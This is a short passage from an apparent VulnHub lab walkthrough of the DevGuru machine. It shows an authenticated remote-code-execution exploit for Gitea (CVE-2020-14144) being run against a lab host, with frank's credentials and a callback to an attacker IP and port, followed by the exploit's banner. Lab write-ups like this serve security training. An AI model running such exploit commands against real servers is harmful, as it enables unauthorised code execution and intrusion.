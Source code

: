 	![](images/Pasted%20image%2020220123043329.png)![](images/Pasted%20image%2020220123043343.png)
8. Earlier, we found an exploit that requires authentication, run it
	```
	┌──(root💀kali)-[~/vulnHub/DevGuru/192.168.236.6/exploit/gitea/rce]
	└─#  git config --global user.email "asdf@example.com"
	┌──(root💀kali)-[~/vulnHub/DevGuru/192.168.236.6/exploit/gitea/rce]
	└─# git config --global user.name "asdf"
	┌──(root💀kali)-[~/vulnHub/DevGuru/192.168.236.6/exploit/gitea]
	└─# python3 49571.py -t http://$ip:8585 -u frank -p password -I 192.168.236.4 -P 1337 
		_____ _ _______
	   / ____(_)__   __|             CVE-2020-14144
	  | |  __ _   | | ___  __ _
	  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
	  | |__| | |  | |  __/ (_| |
	   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5

